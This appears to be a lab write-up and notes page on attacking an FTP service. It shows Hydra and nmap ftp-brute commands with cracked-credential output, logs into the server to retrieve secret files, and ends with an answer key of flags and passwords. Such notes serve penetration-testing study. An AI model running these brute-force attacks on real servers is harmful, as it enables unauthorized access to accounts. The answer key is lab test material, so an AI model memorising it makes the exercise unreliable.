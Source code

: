 Storing files on a server to access remotely 
Default port is 21 

#### Tools
FTP
Hydra

#### Commands
Connect to the target IP address over ftp
```
ftp target_ip
```

Brute force ftp login (get usernames)
```
hydra -L usr/share/metasploit/data/wordlists/username_file -p usr/share/metasploit/data/wordlists/password_file ftp://10.1.0.11 -V
```

List current directory 
```
ftp> ls 
```

Get file from ftp server
```
ftp> get file_name
```

Brute force with nmap
```
nmap target_ip --script ftp-brute --script-args userdb=/root/username_file -p 21 
```

### Lab Questions
1.  What is the version of FTP server?
```
nmap -sS -sV 192.211.130.3

ProFTPD 1.3.5a
```

2.  Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt to check if any of these credentials work on the system. List all found credentials.
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt  -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  192.211.130.3 -t 4 ftp 

[21][ftp] host: 192.211.130.3   login: sysadmin   password: 654321
[21][ftp] host: 192.211.130.3   login: rooty   password: qwerty
[21][ftp] host: 192.211.130.3   login: demo   password: butterfly
[STATUS] 3048.00 tries/min, 3048 tries in 00:01h, 4015 to do in 00:02h, 4 active
[21][ftp] host: 192.211.130.3   login: auditor   password: chocolate
[21][ftp] host: 192.211.130.3   login: anon   password: purple
[STATUS] 2548.00 tries/min, 5096 tries in 00:02h, 1967 to do in 00:01h, 4 active
[21][ftp] host: 192.211.130.3   login: administrator   password: tweety
[21][ftp] host: 192.211.130.3   login: diag   password: tigger
```

3.  Find the password of user “sysadmin” using nmap script.
Add username sysadmin to a text file
```
touch users
nano users

sysadmin
```

Run nmap script against the target IP address with 
```
nmap 192.211.130.3 --script ftp-brute --script-args userdb=/root/users -p 21

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 25 guesses in 6 seconds, average tps: 4.2
MAC Address: 02:42:C0:D3:82:03 (Unknown)
```

4.  Find seven flags hidden on the server.

Login to ftp server
```
ftp 192.211.130.3
username=sysadmin
password=654321
```

Extract Secrets from server,
```
ls -al 
get secret.txt

260ca9dd8a4577fc00b7bd5810298076
```

### Lab Answers
1. ProFTPD 1.3.5a
2.   Users: sysadmin, rooty, demo, auditor, anon, admininstrator, diag
3. 654321
4. 260ca9dd8a4577fc00b7bd5810298076

### Extra 
Username=auditor Password=chocolate
secret=098f6bcd4621d373cade4e832627b4f6

Username=rooty    Password=qwerty
secret=e529a9cea4a728eb9c5828b13b22844c

Username=demo  Password=butterfly
secret=d6a6bc0db10694a2d90e3a69648f3a03

Username=anon  Password=purple
secret=1bc29b36f623ba82aaf6724fd3b16718

Username=diag  Password=tigger
secret=12a032ce9179c32a6c7ab397b9d871fa

